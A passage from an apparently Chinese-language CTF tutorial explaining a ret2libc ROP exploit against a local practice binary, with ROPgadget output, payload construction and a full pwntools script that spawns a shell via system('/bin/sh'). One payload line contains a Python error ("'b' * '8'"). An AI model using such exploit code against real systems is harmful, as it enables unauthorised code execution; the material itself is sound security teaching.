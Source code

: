 ```python
payload = "a" * 0x80 + 'b' * '8' + p64(pop_ret_addr) + p64(bin_sh) + p64(system_addr)
```

&emsp;&emsp;但同时考虑到我们只需要执行system一次，所以似乎gadgets不含有ret也可以，那么我们的选择又多了一些：  

```shell  
ROPgadget --binary libc.so.6 --only "pop|call"
====================================================
0x00000000000bad0d : call qword ptr [rdi]
0x0000000000027225 : call rdi
0x00000000000f982b : pop rax ; pop rdi ; call rax
0x00000000000f982c : pop rdi ; call rax
```

&emsp;&emsp;这时候我们看到了 **0x00f982b : pop rax ; pop rdi ; call rax** 这行指令应该也是可以的，我们只需要构造payload如下：  

```python
payload = 'a' * 0x80 + 'b' * 8 + p64(pop_pop_call) + p64(system_addr) + p64(bin_sh)
```

&emsp;&emsp;此时system_addr被传入rax，bin_sh被传入rdi，最后调用call rax实现exploit，所以两条ROP都可以完成一次优雅的攻击，最终的exp如下：  

```python
from pwn import *

sh = process('./rop_libc')

libc = ELF('./libc.so')

vuln_addr = 0x000011db

system_addr_str = sh.recvuntil("\n")
system_addr = int(system_addr_str,16)
print "system_addr= " + hex(system_addr)

pop_pop_call_offset = 0x00000000000f982b - libc.symbols['system']
print "pop_offset= " + hex(pop_pop_call_offset)

bin_sh_offset = 0x0000000000181519 - libc.symbols['system'] # libc.search('/bin/sh').next()
print "bin_sh_offset= " + hex(bin_sh_offset)

pop_pop_call_addr = system_addr + pop_pop_call_offset
print "pop_addr= " + hex(pop_pop_call_addr)
#pop_pop_call_addr = system_addr + pop_pop_call_offset
#print "pop_pop_call_addr = " + hex(pop_pop_call_addr)

bin_sh = system_addr + bin_sh_offset
print "bin_sh= " + hex(bin_sh)

payload = 'a'*0x88 +  p64(pop_pop_call_addr) + p64(system_addr) + p64(bin_sh)
#payload = "a" * 0x80 + 'b' * '8' + p64(pop_ret_addr) + p64(bin_sh) + p64(system_addr)

sh.sendline(payload) 

sh.interactive()
```
